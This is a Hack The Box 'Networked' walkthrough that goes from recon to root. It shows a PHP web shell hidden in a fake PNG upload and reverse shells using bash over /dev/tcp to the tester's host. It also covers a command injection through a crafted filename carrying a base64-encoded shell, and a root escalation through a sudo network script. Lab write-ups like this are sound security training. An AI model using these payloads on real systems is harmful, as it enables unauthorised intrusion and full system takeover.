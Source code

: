 # Exploiting the HTB “Networked” Box: From Recon to Root

## HTB - Networked Walkthrough

**Category**: Web Exploitation, Privilege Escalation\
**Tags**: #cybersecurity

***

### 🕵️ Initial Recon

* Service found: **SSH**
* Version: **OpenSSH 7.4**
* Possible exploit: [CVE-2016-10012](https://www.exploit-db.com/exploits/40963)

```bash
wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://10.10.10.146/FUZZ
```

* Found and extracted `backup.tar` archive.
* Inside: `upload.php` code with weak validation.

***

### 📤 File Upload Vulnerability

* The upload logic checks only:
  * MIME type
  * File extension

**Request (Burp Suite)**

```http
POST /upload.php HTTP/1.1
Host: 10.10.10.146
Content-Length: 329
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.10.146
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRKXbcJxOmo3AUCu7
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.10.146/upload.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryRKXbcJxOmo3AUCu7
Content-Disposition: form-data; name="myFile"; filename="test.php.png"
Content-Type: image/png

PNG

	
<?php
system($_REQUEST['cmd']);
?>
------WebKitFormBoundaryRKXbcJxOmo3AUCu7
Content-Disposition: form-data; name="submit"

go!
------WebKitFormBoundaryRKXbcJxOmo3AUCu7--
```

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🐚 Reverse Shell Access

* Used `nc` on Parrot OS:

```bash
nc -lvnp 4444
```

* Burp request:

```http
GET /uploads/10_10_14_8.php.png?cmd=bash+-i+>%26+/dev/tcp/10.10.14.8/4444+0>%261 HTTP/1.1
Host: 10.10.10.146
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

```

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

***

### 🧼 File Cleanup Script Vulnerability

* In `guly`'s home directory, a script was auto-deleting files not matching an IP regex.

```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

* This allows **command injection**.
*

    <figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>
* made a reverse shell

```
echo "bash -i >& /dev/tcp/10.10.14.8/4445 0>&1" | base64
```

```
touch -- ';echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDUgMD4mMQo=" | base64 -d | bash'
```

* gully can run the following

#### Reproduction

```bash
touch -- ';echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDUgMD4mMQo=" | base64 -d | bash'
```

***

### ⚙️ Privilege Escalation via `changename.sh`

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
    echo "interface $var:"
    read x
    while [[ ! $x =~ $regexp ]]; do
        echo "wrong input, try again"
        echo "interface $var:"
        read x
    done
    echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```

* Vulnerability: passes user-controlled input to a script executed with root privileges.

#### Exploit:

```bash
echo 'bash -p' > /tmp/payload
chmod +x /tmp/payload

sudo /usr/local/sbin/changename.sh
```

When prompted:

```
interface NAME:
guly0
interface PROXY_METHOD:
none
interface BROWSER_ONLY:
no
interface BOOTPROTO:
none /tmp/payload
```

Executes `/tmp/payload` as root.

* as said in this Blog post if a space is given this is executed everything after the space as root
  * https://seclists.org/fulldisclosure/2019/Apr/24

***

### 🧠 Lessons

* Never trust user input — always sanitize and validate properly.
* File upload protections should go beyond MIME and extension.
* Never directly pass input to shell commands without sanitization.

***

### 🔗 References

* [Full Disclosure - changename.sh bug](https://seclists.org/fulldisclosure/2019/Apr/24)
* [YouTube Walkthrough](https://www.youtube.com/watch?v=H3t3G70bakM)
* https://seclists.org/fulldisclosure/2019/Apr/24
* [https://www.hackthebox.com/achievement/machine/409699/203](https://www.hackthebox.com/achievement/machine/409699/203)

